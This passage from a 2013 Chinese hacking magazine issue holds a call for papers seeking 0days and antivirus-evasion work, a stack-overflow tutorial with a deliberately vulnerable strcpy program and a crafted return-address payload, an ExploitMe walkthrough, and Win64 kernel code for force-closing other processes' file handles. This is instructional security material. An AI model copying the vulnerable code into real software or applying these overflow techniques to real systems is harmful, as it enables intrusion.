图 5 显示了 sigfind 工具搜索 GZIP 文件关联块号的信息，然后再选择其中的某一个块号进行恢复，即使用 frib 工具恢复。倘若待恢复文件不存在特殊签名，则我们可以选择第 2 条属性进行启发式搜索，即使用块号 N 对应的 4 字节内容为 N+1。这里 Hal Pomeranz 基于此特性开发了一个命名为 fib 的小工具。frib 和 fib 都是基于 Perl 语言实现的，使用来自 Sleuthkit 中的 blkcat 工具包 dump 数据块。运行这些工具必须确保系统已安装 Sleuthkit 工具包。这些工具的使用特性，本文不再一一介绍，感兴趣的读者可参考 Hal Pomeranz 在以下网址上发布的文章 https://www.mandiant.com/blog/ext3-file-recovery-indirect-blocks/。

#### 小结

本文首先对 Ext3 文件结构中与数据恢复相关联的结构进行了简要描述，然后给出了基于 Ext3 文件系统的两种数据恢复策略，并分别进行了描述。两种手段各有千秋，基于日志文件模式的数据恢复主要是寄予在日志文件中寻找到残留的 inode 信息，即扫描文件系统 Journal 文件，把所有的残留 inode 信息收集进行分析，当然其中就包含 Carlo Wood 开发的 ext3grep 工具。基于 indirect inode 模式的恢复技术主要基于签名和间接块关联特性进行启发式搜索，这种方式可能比较耗时，且针对图像和二进制等文件恢复效果欠佳。

（完）

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1. 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2. 在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3. 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：du_xing_zhe@yahoo.com.cn，QQ：675122680。投稿后，稿件录用情况将于 1-3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。  
  **重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4. 稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5. 根据稿件质量，分为一等、二等、三等稿件，稿费标准如上。
- 6. 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7. 投稿信箱及编辑联系：  
  - 投稿信箱：du_xing_zhe@yahoo.com.cn  
  - 编辑 QQ：675122680

| 稿件等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

## 《黑客防线》3 期文章目录

总第 147 期 2013 年

### 漏洞攻防

- 栈溢出攻击学习与实践（张少飞）……2
- 漏洞解析之 ExploitMe（woosheep）……4

### 编程解析

- 在 Win64 上实现驱动级解锁文件（胡文亮）……16
- 在 Win64 上无 HOOK 实现监控驱动加载（胡文亮）……22
- MD5 算法设计与编程实现（张少飞）……27
- Python 黑客编程：网站后台暴力破解（blackcool）……30
- 共享内存的奥秘（王晓松）……37

### Android 远程监控技术

- Android 木马揭秘之用户定位技术的实现（爱无言）……42
- 2013 年第 4 期杂志特约选题征稿……48
- 2013 年征稿启示……48

### 栈溢出攻击学习与实践

文/图 张少飞

#### 栈结构及形成过程

一个进程可能被加载到内存中不同的区域执行。进程运行所使用的内存空间按照功能，大致都能分成以下 4 个部分：

- 数据区：用来存储全局变量等。
- 栈区：用来存储函数之间的调用关系，以保证被调用函数在返回时恢复到母函数中继续执行。
- 堆区：动态分配与回收是堆区的最大特点，进程能够动态地申请一定大小的缓冲，并在用完之后归还给堆区。
- 代码区：存储 CPU 所执行的机器码，CPU 会到这个区域来读取指令并执行。

其中栈区由系统自动维护，它实现了高级语言中的函数调用。对于 C 语言等高级语言，栈区的 PUSH、POP 等平衡堆栈细节是透明的。请看如下代码：

```c
int function_b(int argument_B1, int argument_B2)
{
    int variable_b1, variable_b2;
    variable_b1=argument_B1+argument_B2;
    variable_b2=argument_B1-argument_B2;
    return variable_b1*variable_b2;
}

int function_a(int argument_A1, int argument_A2)
{
    int variable_a;
    variable_a=function_b(argument_A1,argument_A2) + argument_A1 ;
    return variable_a;
}

int main(int argumentc, char **argumentv, char **envp)
{
    int variable_main;
    variable_main=function_a(4,3);
    return variable_main;
}
```

同一文件不同函数的代码，在内存代码区中的分布可能先后有序也可能无序，相邻也可能相隔甚远。

当 CPU 执行调用 function_a 函数时，会从代码区中 main 方法对应的二进制代码区域跳转到 function_a 函数对应的二进制代码区域，在那里获取指令并执行；当 function_a 函数执行完毕，需要返回时，又会跳回到 main 方法对应的指令区域，紧接着调用 function_a 后面的指令继续执行 main 方法的代码。

这些代码区中精确的跳转都是通过与栈区巧妙的配合完成的。当函数调用发生时，栈区会为这个函数开辟一个新的栈区单元，并将它压入栈中。这个栈区单元中的内存空间被它所属的函数独占，正常情况下是不会和别的函数共享的。当函数返回时，栈区会弹出该函数所对应的栈区单元。

在函数调用的过程中，伴随的栈区中的操作如下：

在 main 方法调用 function_a 时，先在自己的栈区单元中压入函数返回地址，而后为 function_a 创建新栈区单元压入栈区。  
在 function_a 调用 function_b 时，同样先在自己的栈区单元中压入函数返回地址，然后为 function_b 创建新栈区单元并压入栈区。  
在 function_b 返回时，function_b 的栈区单元被弹出栈区，function_a 栈区单元中的返回地址“露”出栈顶，此时处理器按照这个返回地址重新跳到 function_a 代码区中执行。  
在 function_a 返回时，function_a 的栈区单元被弹出栈区，main 方法栈区单元中的返回地址“露”出栈顶，此时处理器按照这个返回地址跳到 main 方法代码区中执行。  
每一个函数独占自己的栈区单元空间，当前正在运行的函数的栈区单元总是在栈顶。

Win32 系统提供两个特殊的寄存器用来标识位于栈区栈顶的栈区单元。  
ESP：栈指针寄存器，其内存放着指向栈区最上面一个栈区单元的栈顶的指针。  
EBP：基址指针寄存器，其内存放着指向栈区最上面一个栈区单元底部的指针。  
函数栈区单元：ESP 和 EBP 之间的内存空间为当前栈区单元，EBP 标识了当前栈区单元的底部，ESP 标识了当前栈区单元的顶部。

在函数栈区单元中一般包含以下几类重要信息：  
局部变量：为函数局部变量开辟内存空间。  
栈区单元状态值：保存前栈区单元的顶部和底部（实际上只保存前栈区单元的底部，前栈区单元的顶部能够通过平衡堆栈计算得到），用来在本帧被弹出后，恢复上一个栈区单元。  
函数返回地址：保存当前函数调用前的“断点”信息，也就是函数调用前的指令位置，以便函数返回时能够恢复到函数被调用前的代码区中继续执行指令。

```asm
函数调用发生时用到的指令大致如下：

; 调用前
push 参数 C
push 参数 B
push 参数 A
call 函数地址 ; call 指令完成两项工作：向栈中压入返回地址；跳转

; 函数开始处代码形式
push ebp      ; 保存旧栈区单元的底部
mov ebp, esp  ; 栈区单元切换
sub esp, xxx  ; 抬高栈顶，开辟新栈区单元空间
```

函数调用大约包括以下几个步骤：

- 1）参数入栈：将参数从右向左依次压入栈区中。
- 2）返回地址入栈：将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行。
- 3）代码区跳转：处理器从当前代码区跳转到被调用函数的入口处。
- 4）栈区单元调整：具体包括保存当前栈区单元状态值，EBP 入栈；将当前栈区单元切换到新栈区单元，将 ESP 值装入 EBP，更新栈区单元底部；给新栈区单元分配空间，将 ESP 减去所需空间的大小，抬高栈顶。

类似地，函数返回时的汇编指令序列大致如下：

```asm
add esp, xxx  ; 回收当前的栈区单元
pop ebp       ; 恢复上一个栈区单元底部位置
retn          ; 有两个功能：弹出栈区单元中的返回地址，让处理器恢复调用前的代码区
```

函数返回的步骤如下：

- 1）通常将返回值保存在 EAX 中。
- 2）弹出当前栈区单元，恢复上一个栈区单元。具体包括在平衡堆栈的基础上，给 ESP 加上栈区单元的大小，回收当前栈区单元的空间；将保存的前栈区单元 EBP 值弹入 EBP 寄存器，恢复出上一个栈区单元；将函数返回地址弹给 EIP 寄存器；跳转：按照函数返回地址继续执行母函数。

栈区结构就是按照这样的函数调用约定组织起来的。

#### 栈溢出攻击实践

本实践是我自己手写了一个简单的 C 语言程序（VC6.0 编译），然后通过溢出栈区，覆盖函数的返回地址，从而改变程序的执行流程，以达到攻击效果。

程序代码如下：

```c
#include <stdio.h>
#define PWD "1234567"
int verify_pwd (char * pwd)
{
    int right;
    char buf[8];
    right=strcmp(pwd,PWD);
    strcpy(buf,pwd);//over flowed here!
    return right;
}
main()
{
    int flag_valid=0;
    char pwd[1024];
    FILE * fp;
    if(!(fp=fopen("pwd.txt","rw+")))
    {
        exit(0);
    }
    fscanf(fp,"%s",pwd);
    flag_valid = verify_pwd(pwd);
    if(flag_valid)
```

```c
{
    printf("incorrect pwd!\n");
}
else
{
    printf("Good Job! Verification passed!\n");
}
fclose(fp);
}


```

首先用 OD 加载得到的可执行 PE 文件，如图 1 所示。
图 1

阅读反汇编代码，能够知道通过验证的程序分支的指令地址为 0x00401122。

0x00401102 处的函数调用就是 verify_pwd 函数，之后在 0x0040110A 处将 EAX 中的函数返回值取出，在 0x0040110D 处与 0 比较，然后决定跳转到提示验证错误的分支或提示通过验证的分支。提示通过验证的分支，从 0x00401122 处的参数压栈开始。

通过用 OD 调试，发现栈区单元中的变量分布情况基本没变，这样就能够按照如下方法构造 pwd.txt 中的数据了。

为了字节对齐并且方便辨认，将“4321”作为一个串块。buf[8] 共需要 2 个这样的单元，第 3 个串块将 right 覆盖，第 4 个串块将前栈区单元 EBP 值覆盖，第 5 个串块将函数返回地址覆盖。

为了将第 5 个串块的 ASCII 码值（0x34333231）改为通过验证分支指令的地址（0x00401122），借助十六进制编辑工具来完成（我用的 UltraEdit），因为部分 ASCII 码所对应符号无法用键盘输入。

- **Step 1：**新建一个名称为 pwd.txt 的文件，并使用记事本程序打开，输入 5 个“4321”，如图 2 所示。
图 2

- **Step 2：**保存，关闭记事本并用 UltraEdit 打开，如图 3 所示。
图 3

- **Step 3：**将 UltraEdit 的编辑模式切换到十六进制，如图 4 所示。
图 4

- **Step 4：**将最后 4 个字节改为新的函数返回地址，如图 5 所示。
图 5

- **Step 5：**此时再切换回文本编辑模式，最后的 4 个字节的对应字符显示结果为乱码，如图 6 所示。
图 6

将 pwd.txt 保存后，用 OD 加载程序并调试，程序运行结果如图 7 所示。
图 7

#### 学习心得

能看懂二进制是研究安全技术所必需的技能。信息安全技术不仅需要计算机理论基础很扎实，更需要优秀的动手、实践能力，是一个对技术性要求很高的领域。

缓冲区溢出攻击的理论我很早就已经学习了，以为只是修改返回地址将 CPU 指到缓冲区中的恶意代码而已，但当自己动手实践时，才发现实际情形原来比原理要复杂很多。信息安全需要有强烈的兴趣做动力，还需要有能够为了梦想持之以恒的坚定意志。

### 漏洞解析之 ExploitMe

文/图 woosheep

说道漏洞，大家第一反应可能是 CVE 或者 KB 后带着一大串高深莫测的数字，看了就不敢碰了。本文为大家带来的是一个为考试而生的 ExploitMe 的解析，难度不难，很适合用来开题，消除 Exploit 的神秘感。

有人气吞山河地断定，凡是软件都有漏洞，这是一个哲学层面的问题，这里我们只关心什么样的漏洞可以溢出。漏洞可以粗分为 local 和 remote 两种类型，后者在入侵中更为常见，但要求也更苛刻，必须是允许输入才可能被溢出的。有朋友说，直接 patch 或者工具修改不行吗？行，不过仅限于 local，为什么呢？我们当然可以随意修改本机上的软件，但要利用漏洞入侵服务器，最开始只能通过 I/O 进行交互，无法从进程层面或者二进制码层面进行访问。不支持 I/O 的软件，就算存在漏洞，我们也无法直接利用。

选择正确的切入点很重要。一个可能被利用的 remote 型软件，要么开有端口，要么支持文件读取，本文的 ExploitMe 就属于后者，它要读取同目录下名为 exploit.dat 的文件。

怎样知道它读取什么文件呢？一是看软件说明，软件毕竟是供人使用的，或多或少都会有介绍，看看说明中是否提及软件会读取什么文件。在入侵某个系统时，熟知这个系统的输入环境往往会让工作如鱼得水。要是某位奇葩管理员装的全是剑走偏锋的玩意怎么办呢？那就只好花点时间找到相同的软件，照样配置好后逆向研究。以本 ExploitMe 为例，OD 载入，下断 CreateFileA，看一眼堆栈，如图 1 所示。
图 1

这时堆栈里保存着完整的输入参数，看到 FileName，嗯，懂了，建立一个名字为 exploit.dat 的文件。有了输入，接着是找溢出点。溢出点通常要同时满足两个条件，一是程序需要使用栈里的某一段数据作为执行地址，二是输入的数据能够覆盖到那一段栈地址。

首先找找有没有将栈数据作为地址执行的，找到了这里，如图 2 所示。
图 2

这里有两个 call，分别读取 eax 和 edx 作为地址，而且这两个寄存器的值都与栈有关！一个是 esp+0x20，一个是 esp+0xA4，先记好这两个值。

现在要验证这两处栈地址是否能被输入覆盖，我们看一下程序将文件读到哪里去了。重新载入，下断 ReadFile，来到图 3 所示的位置。
图 3

看来不太妙。读入 Buffer 的地址是 esp+0x130，后面通过一个 rep 指令复制到 ebp，离我们想要的地址都挺远。能不能简单粗暴地增大文件直到覆盖特定栈地址呢？如果程序对读入文件大小没有限制是可以的，但这里我们发现了第二个不太妙的地方，如图 4 所示。
图 4

程序会比较文件大小，若超过 0x84 就 GameOver。现在有两个选择，一是继续寻找有没有溢出点，二是用全 0 填一个 0x84 大小的 exploit.dat 文件。第二种有点碰运气，不过取巧才是黑客的浪漫，所以这里选第二种。

运行，程序崩溃了！对于程序员，程序崩溃是一件遗憾的事，但对于黑客，崩溃如同听见胜利女神的召唤。找到崩溃日志，如图 5 所示。
图 5

内存地址 0x0040116A 处发生读取异常，数值就是我们填入的 0（如果不确定，可以多次变化文件的填写内容作为验证）！0x0040116A 正好是上文提及的两个 Call 之一。回溯一下这个 Call 的值是怎么来的。首先是 esp+0xA4，如图 6 所示。

```asm
0040115C  mov edx, dword ptr [esp+A4]
00401163  lea ecx, dword ptr [esp+A4]
0040116A  call dword ptr [edx]
```

图 6

那么，esp+0xA4 是怎么来的呢？上下文中没有 esp+0xA4 的专门赋值，但是算一算，文件最大可达 0x84，在这个范围以内的栈地址都可覆盖，也就是只要在 esp+0x24 到 esp+0xA4 有可用的赋值即可。往上找到一处，如图 7 所示。

```asm
00401104  mov esi, ebp
00401106  mov eax, ecx
00401108  lea edi, dword ptr [esp+24]
0040110C  shr ecx, 2
0040110F  rep movs dword ptr es:[edi], dword ptr [esi]


```

图 7

这一段栈地址从 esp+0x24 开始，赋值的是 ebp 指向的值，而且长度覆盖了 esp+0xA4。上文说过，buffer 的数据通过一个 rep 指令复制到 ebp 里去，这样就对上了。文件内容通过 ReadFile 读入 buffer，再被复制到 ebp 指向的内存地址，最后通过 rep 赋值给 esp+0x24 开始、共计 0x84 大小的栈地址。也就是说，文件的最后一个 DWORD，恰好可以控制 0x0040116A 处 Call 的调用地址，只要将栈首地址 esp+0x24 填入，就可以获得 0x80 大小的操作空间。

可以控制地址是好事，可是由于软件缺乏 jmp esp 等跳板指令，不得不把栈首地址硬编码，降低了 exploit 的适用性。如果操作系统加入 ASLR（内存地址随机布局）机制，理论上能很好地对抗硬编码的 exploit。

知道了怎么利用这个漏洞，那该怎么防呢？

这个漏洞之所以能成功溢出，归功于多次的内存复制，而这些多次内存复制没有功能上的需要，很可能是出题人为方便解题故意“放水”。但在一个庞大复杂的系统中，出现这种低级错误并不奇怪。在调试过程中，我们发现这个程序至少做了两个防溢出的措施，最明显的就是文件不得大于 0x84，可惜少算了一个 DWORD，甚至可能只是少写了一个等号，只要修改为不得大于等于 0x84 即可堵上这个漏洞。

另一个措施做得比较隐蔽，如图 8 所示。程序会将使用过的 buffer 清 0，这对于保存栈数据绝对是坏消息，如果栈数据在溢出前被清 0，那么就算覆盖了返回地址，也只会导致程序崩溃，而无法为我所用。幸亏这个程序的清 0 措施有两大问题：一是最后一段，即直接造成溢出的那一段没有清 0；另一个是清 0 的范围有误，只设置了 0x80 大小，比合法的文件输入上限 0x84 刚好小一个 DWORD，黑客还是可以从远端控制 CALL 地址，虽然利用起来更为困难，但仍无法彻底消除溢出隐患。
图 8

这样，一个 ExploitMe 即被我们成功解析了。学习溢出，对于漏洞既要知其然，也要知其所以然，才能不断地做到知识积累。

（完）

### 在 Win64 上实现驱动级解锁文件

文/图 胡文亮

相信大家在 Windows 系统上都遇到过想删除一个文件时却被提示“无法删除”的情况。我在初学电脑时遇到这种情况只能自认倒霉，重启之后再删除文件。学习了 Windows 后知道了在正常情况下（即不算文件被文件过滤驱动或者各种 API HOOK 保护的情况），遇到这个提示只有两种可能性：你没有删除这个文件的权限；有句柄在某个进程里被打开了。解决第一种情况不需要编程，只要把以下代码保存成 *.reg 文件并添加到注册表即可。

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\*\shell\takeownership]
@="Take ownership"
"HasLUAShield"=""
"NoWorkingDirectory"=""

[HKEY_CLASSES_ROOT\*\shell\takeownership\command]
@="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"
"IsolatedCommand"="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"
```

```reg
[HKEY_CLASSES_ROOT\exefile\shell\takeownership]
@="Take ownership"
"HasLUAShield"=""
"NoWorkingDirectory"=""

[HKEY_CLASSES_ROOT\exefile\shell\takeownership\command]
@="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"
"IsolatedCommand"="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"
```

```reg
[HKEY_CLASSES_ROOT\dllfile\shell\takeownership]
@="Take ownership"
"HasLUAShield"=""
"NoWorkingDirectory"=""

[HKEY_CLASSES_ROOT\dllfile\shell\takeownership\command]
@="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"
"IsolatedCommand"="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F"

[HKEY_CLASSES_ROOT\Directory\shell\takeownership]
@="Take ownership"
"HasLUAShield"=""
"NoWorkingDirectory"=""

[HKEY_CLASSES_ROOT\Directory\shell\takeownership\command]
@="cmd.exe /c takeown /f \"%1\" /r /d y && icacls \"%1\" /grant administrators:F /t"
"IsolatedCommand"="cmd.exe /c takeown /f \"%1\" /r /d y && icacls \"%1\" /grant administrators:F /t"
```

当要删除一个文件而遇到“无法删除需要权限”的提示时，只要对着文件按下右键，选择“Take ownership”再删除文件即可。

第二种情况就要通过编程解决了，这也就是本文的核心内容。要删除被打开的文件，比较好的方法是关闭此文件在其它进程里的句柄（直接解析文件系统也可以，不过这个难度太大，而且不通用）。总体来说，步骤分为以下两步：枚举系统句柄表；获得所有和此文件有关的句柄并关闭。具体到代码级的思想，又可以分为以下几步：

- 1) 调用 ZwQuerySystemInformation 的 16 功能号来枚举系统里的句柄；
- 2) 打开拥有此句柄的进程，并把此句柄复制到自己的进程；
- 3) 用 ZwQueryObject 查询句柄的类型和名称；
- 4) 如果发现此句柄的类型是文件句柄，名称和被锁定的文件一致，就关闭此句柄。

重复 2、3、4 步，直到遍历完系统里所有的句柄。

实现代码如下：

```c
VOID CloseFileHandle(char *szFileName)
{
    PVOID Buffer;
    ULONG BufferSize = 0x20000, rtl=0;
    NTSTATUS Status, qost=0;
    NTSTATUS ns = STATUS_SUCCESS;
    ULONG64 i=0;
    ULONG64 qwHandleCount;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO *p;
    OBJECT_BASIC_INFORMATION BasicInfo;
    POBJECT_NAME_INFORMATION pNameInfo;

    ULONG ulProcessID;
    HANDLE hProcess;
    HANDLE hHandle;
    HANDLE hDupObj;
    CLIENT_ID cid;
    OBJECT_ATTRIBUTES oa;
    CHAR szFile[260]={0};
    Buffer=kmalloc(BufferSize);
    memset(Buffer,0,BufferSize);
    Status = ZwQuerySystemInformation(16, Buffer, BufferSize, 0);
    //SystemHandleInformation
    while(Status == 0xC0000004) //STATUS_INFO_LENGTH_MISMATCH
    {
        kfree(Buffer);
        BufferSize = BufferSize * 2;
        Buffer=kmalloc(BufferSize);
        memset(Buffer,0,BufferSize);
        Status = ZwQuerySystemInformation(16, Buffer, BufferSize, 0);
    }
    if (!NT_SUCCESS(Status)) return;
    qwHandleCount=((SYSTEM_HANDLE_INFORMATION*)Buffer)->NumberOfHandles;
    p=(SYSTEM_HANDLE_TABLE_ENTRY_INFO *)((SYSTEM_HANDLE_INFORMATION*)Buffer)->Handles;
    //clear array
    memset(HandleInfo,0,1024*sizeof(HANDLE_INFO));
    //ENUM HANDLE_PROC
    for(i=0;i<qwHandleCount;i++)
    {
        ulProcessID = (ULONG)p[i].UniqueProcessId;
        cid.UniqueProcess = (HANDLE)ulProcessID;
        cid.UniqueThread = (HANDLE)0;
        hHandle = (HANDLE)p[i].HandleValue;
        InitializeObjectAttributes(&oa,NULL,0,NULL,NULL);
        ns = ZwOpenProcess(&hProcess,PROCESS_DUP_HANDLE,&oa,&cid);
        if ( !NT_SUCCESS( ns ) )
        {
            KdPrint(("ZwOpenProcess : Fail "));
            continue;
        }
    }
}
```

```c
ns = ZwDuplicateObject(hProcess, hHandle, NtCurrentProcess(), &hDupObj,
    PROCESS_ALL_ACCESS, 0, DUPLICATE_SAME_ACCESS);
if (!NT_SUCCESS(ns))
{
    KdPrint(("ZwDuplicateObject : Fail"));
    continue;
}

// get basic information
ZwQueryObject(hDupObj, ObjectBasicInformation, &BasicInfo,
    sizeof(OBJECT_BASIC_INFORMATION), NULL);

// get name information
pNameInfo = ExAllocatePoolWithTag(PagedPool, 1024, 'ONON');
RtlZeroMemory(pNameInfo, 1024);
status = ZwQueryObject(hDupObj, ObjectNameInformation, pNameInfo, 1024, &rtl);

// get information and close handle
UnicodeStringToCharArray(&(pNameInfo->Name), szFile);
ExFreePool(pNameInfo);
ZwClose(hDupObj);
ZwClose(hProcess);
if (!_stricmp(szFile, szFileName))
{
    PEPROCESS ep = LookupProcess((HANDLE)(p[i].UniqueProcessId));
    ForceCloseHandle(ep, p[i].HandleValue);
    ObDereferenceObject(ep);
}
```

接下来说说如何关闭其它进程里的句柄。

- 1. 用 KeStackAttachProcess “依附”到目标进程；
- 2. 用 ObSetHandleAttributes 设置句柄为“可以关闭”；
- 3. 用 ZwClose 关闭句柄；
- 4. 用 KeUnstackDetachProcess 脱离“依附”的目标进程。

实现代码如下：

```c
VOID ForceCloseHandle(PEPROCESS Process, ULONG64 HandleValue)
{
    HANDLE h;
    KAPC_STATE ks;
    OBJECT_HANDLE_FLAG_INFORMATION ohfi;
    if (Process == NULL)
        return;
    if (!MmIsAddressValid(Process))
        return;
    KeStackAttachProcess(Process, &ks);
    h = (HANDLE)HandleValue;
    ohfi.Inherit = 0;
    ohfi.ProtectFromClose = 0;
    ObSetHandleAttributes(h, &ohfi, KernelMode);
    ZwClose(h);
    KeUnstackDetachProcess(&ks);
}
```

要注意的是，要解锁的文件的路径不能写成常见的 DOS 格式，而要写成 NT 格式，比如“c:\lockfile.txt”的 NT 格式路径可能是“\\Device\\HarddiskVolume2\\LockFile.txt”。为什么说“可能是”呢？因为前半段“\\Device\\HarddiskVolumeX”中的 X 并不能确定是什么，要通过转换才知道。转换方法很简单，用 QueryDosDevice 就行了。以下是封装好的函数：

```c
char *DosPathToNtPath(char *szFileName)
{
    char szDosDrive[3] = {0};
    char *szNtDrive = NULL, *szFilePart = NULL, *szNtPath = NULL;
    szNtDrive = (char*)malloc(260);
    memset(szNtDrive, 0, 260);
    memcpy(szDosDrive, szFileName, 2);
    QueryDosDeviceA(szDosDrive, szNtDrive, 260);
    szFilePart = Mid(szFileName, 3, 0);
    szNtPath = cs(szNtDrive, szFilePart);
    free(szFilePart);
    free(szNtDrive);
    return szNtPath;
}
```

可能的输出结果如图 1 所示。

图 1

接下来说说测试步骤：

- 1. 新建文件 c:\lockfile.txt。
- 2. 用 lockfile.exe 锁定文件 c:\lockfile.txt，如图 2 所示。
- 3. 双击 c:\lockfile.txt，会提示无法打开（如果此时用 Unlocker 查看，会发现系统里每个进程都有 c:\lockfile.txt[] 的句柄，如图 3 所示）。
- 4. 加载 UnlockFile.sys，再次打开 c:\lockfile.txt，发现文件又可以打开了。

图 2

图 3

本文到此结束，代码在 Win7 X64 和 Win8 X64 上测试通过（运行任何程序时，都要以管理员权限运行）。在 Win32 上可以用相同的方法，但是结构体的定义并不相同，对应的结构体需要自己去寻找。

## 在 Win64 上无 HOOK 实现监控驱动加载

文/图 胡文亮

在 32 位系统上监控驱动加载，常用的手段是 Hook NtLoadDriver，不过有不少方法加载驱动无需经过 NtLoadDriver，比如用 ZwSetSystemInformation，或者使用一些未公开的 0Day 方法，可见 Hook NtLoadDriver 是极其表层并不可信的方法。后来黑防上刊登过一篇 Hook MmCheckSystemImage 来拦截驱动加载的方法，可惜此方法在 Vista 以后的操作系统上并不适用。其实大家都多虑了，微软早就帮我们想好了一种标准方法来监控驱动的加载，下面我就详细地介绍一下。

此函数名称为 PsSetLoadImageNotifyRoutine，可以设置一个“映像加载通告例程”，来通知你的驱动当前系统在加载什么 DLL 或者驱动。有人可能认为这个标准方法的监控非常表层，其实恰恰相反，这个方法非常底层，大部分加载驱动的方法都可以绕过 NtLoadDriver，但是无法绕过“映像加载通告例程”，所以用此方法监控驱动加载是最合适的了。

首先看看此函数的原型：

```c
NTSTATUS PsSetLoadImageNotifyRoutine(PLOAD_IMAGE_NOTIFY_ROUTINE NotifyRoutine);
```

其中 NotifyRoutine 是一个函数指针，此回调函数的原型是：

```c
VOID (*PLOAD_IMAGE_NOTIFY_ROUTINE)(
    __in_opt PUNICODE_STRING FullImageName,
    __in HANDLE ProcessId,
    __in PIMAGE_INFO ImageInfo
);
```

回调函数的前两个参数显而易见，分别是映像的路径和加载此映像的进程 ID，第三个参数包含了更加详细的信息。

```c
typedef struct _IMAGE_INFO {
    union {
        ULONG Properties;
        struct {
            ULONG ImageAddressingMode : 8;  // code addressing mode
            ULONG SystemModeImage : 1;      // system mode image
            ULONG ImageMappedToAllPids : 1; // mapped in all processes
            ULONG Reserved : 22;
        };
    };
    PVOID ImageBase;
    ULONG ImageSelector;
    ULONG ImageSize;
    ULONG ImageSectionNumber;
} IMAGE_INFO, *PIMAGE_INFO;
```

不过此结构体到了 Vista 之后，发生了一点变化。

```c
typedef struct _IMAGE_INFO {
    union {
        ULONG Properties;
        struct {
            ULONG ImageAddressingMode  : 8;  // Code addressing mode
            ULONG SystemModeImage      : 1;  // System mode image
            ULONG ImageMappedToAllPids : 1;  // Image mapped into all processes
            ULONG ExtendedInfoPresent  : 1;  // IMAGE_INFO_EX available
            ULONG Reserved             : 21;
        };
    };
    PVOID  ImageBase;
    ULONG  ImageSelector;
    SIZE_T ImageSize;
    ULONG  ImageSectionNumber;
} IMAGE_INFO, *PIMAGE_INFO;
```

当 ExtendedInfoPresent 标志非零时，IMAGE_INFO 结构体被包含在了另外一个更大的结构体里。

```c
typedef struct _IMAGE_INFO_EX {
    SIZE_T              Size;
    IMAGE_INFO          ImageInfo;
    struct _FILE_OBJECT *FileObject;
} IMAGE_INFO_EX, *PIMAGE_INFO_EX;
```

